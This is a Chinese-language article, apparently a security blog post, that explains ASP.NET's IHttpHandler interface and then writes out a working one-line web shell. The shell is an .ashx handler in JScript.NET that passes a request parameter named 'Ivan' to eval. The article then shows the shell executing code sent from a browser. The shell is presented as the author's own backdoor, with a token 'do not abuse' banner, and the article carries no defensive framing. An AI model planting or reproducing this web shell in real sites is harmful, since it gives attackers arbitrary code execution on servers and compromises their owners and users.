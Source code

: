 .Net
Framework在处理Http请求时的所采用的默认Handler。而如果我们要用编程的方式来操控一个Http请求，我们就需要实现IHttpHandler接口，来定制我们自己的需求。IHttpHandler的定义是这样的：

| public interface IHttpHandler { bool IsReusable { get; } void ProcessRequest(HttpContext context); } |
|------------------------------------------------------------------------------------------------------|


由上面可以看出IHttpHandler要求实现一个方法和一个属性。其中
ProcessRequest，从名字(处理请求)看就知道这里应该放置我们处理请求的主要代码。IsReusable属性，MSDN上是这样解释的：获取一个值，该值指示其他请求是否可以使用
IHttpHandler
实例。也就是说后继的Http请求是不是可以继续使用实现了该接口的类的实例。如果返回true，则HttpHandler能得到重用，或许某些场合下，是可以达到性能优化的目的。但是，它也可能会引发新的问题：HttpHandler实例的一些状态会影响后续的请求，也正是由于这个原因在默认情况下，都是不重用的。在通常情况下，当实现IsReusable时返回false，虽然性能上不是最优，但却是最安全的做法。

了解了基本原理后，笔者开始手动打造一句话小马，这个马儿要和PHP或者同胞兄弟Aspx一样，仅仅在服务端存放体积很小的一段代码，参考Aspx一句话木马的实现原理，发现是基于Jscript.Net语言中的eval方法去执行任意字符串的，所以首当其冲考虑用Jscript，并且需要实现IhttpHandler这个接口，查询资料后得到在Jscript.Net和VB.Net中均采用implements去实现，最终写出一句话木马服务端代码：

| \<%\@ WebHandler Language="JScript" class=" HandlerSpy "%\> import System; import System.Web; import System.IO; public class HandlerSpy implements IHttpHandler{ function IHttpHandler.ProcessRequest(context : HttpContext){ context.Response.Write("\<H1\>Just for fun, Do not abuse it! Written by \<a href='https://github.com/Ivan1ee'\>Ivan1ee\</a\>\</H1\> "); eval(context.Request["Ivan"]); } function get IHttpHandler.IsReusable() : Boolean{ return false; } } |
|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


这里有必要简单的介绍一下Jscript.Net的语法；和大多数语言类似导入命名空间也是通过Import，以下摘自微软描述

| **import** 语句在名称提供为 *namespace* 的全局对象上创建属性并将其初始化，以包含对应于所导入命名空间的对象。 任何使用 **import** 语句创建的属性都不能赋给其他对象、删除或枚举。 所有 **import** 语句都在脚本开始时执行。 |
|--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


方法名中的参数和类型之间用冒号分割 ，一对括号外的是返回的类型 。可参考下图

![](media/283d1e6eac340b60f29ad17f76b111b8.png)

如果要访问类中的属性，需使用 function get 语句，可参考下图

![](media/55c4f3889bb1f3cb9c05424175f2c497.png)

Jscript简单语法就介绍到这里，更多的语法可参考微软官方文档：<https://docs.microsoft.com/zh-cn/previous-versions/visualstudio/visual-studio-2010/z688wt03(v%3dvs.100)>

万事俱备，打开浏览器输入 context.Response.Write(DateTime.Now.ToString())
成功打印出当前时间

![](media/3091a3a6df47bd40f47e56fea162dd8f.png)
